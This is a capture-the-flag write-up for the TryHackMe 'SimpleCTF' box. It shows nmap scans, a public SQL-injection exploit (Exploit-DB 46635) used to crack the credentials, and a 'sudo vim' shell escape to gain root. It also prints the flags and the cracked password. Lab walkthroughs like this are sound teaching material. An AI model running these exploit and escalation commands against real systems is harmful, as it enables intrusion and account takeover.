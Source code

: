 ```yaml
---
title: Box - SimpleCTF
published: true
---
```


Begginner level CTF

* * *

## How many services are running under port 1000?

- ``sudo nmap -T4 10.10.35.218 -p- -vvv``

```shell
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 61
80/tcp   open  http         syn-ack ttl 61
2222/tcp open  EtherNetIP-1 syn-ack ttl 61
```

* * *

## What is running on the higher port?

-  ``sudo nmap -sC -sV -O -T4 10.10.35.218 -p2222``

```shell
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

* * *

## What's the CVE you're using against the application?

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/SimpleCTF]
└─$ searchsploit -p 46635 
  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable
```

* * *

## To what kind of vulnerability is the application vulnerable?

- SQLi

* * *

## What's the password?

- ``python2 46635.py -u http://10.10.35.218/simple --crack -w /usr/share/seclists/Passwords/rockyou.txt``

```shell
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

* * *

## Where can you login with the details obtained?

- ssh

* * *

## What's the user flag?

```shell
$ cat user.txt
G00d j0b, keep up!
```

* * *

## Is there any other user in the home directory? What's its name?

```shell
$ cd ..
$ ls -las
total 16
4 drwxr-xr-x  4 root    root    4096 aug 17  2019 .
4 drwxr-xr-x 23 root    root    4096 aug 19  2019 ..
4 drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
4 drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath
```

* * *

## What can you leverage to spawn a privileged shell?

- ``sudo -l``
- vim
- ``sudo vim -c ':!/bin/sh'``

* * *

## What's the root flag?

```shell
# cat root.txt
W3ll d0n3. You made it!
```

* * *

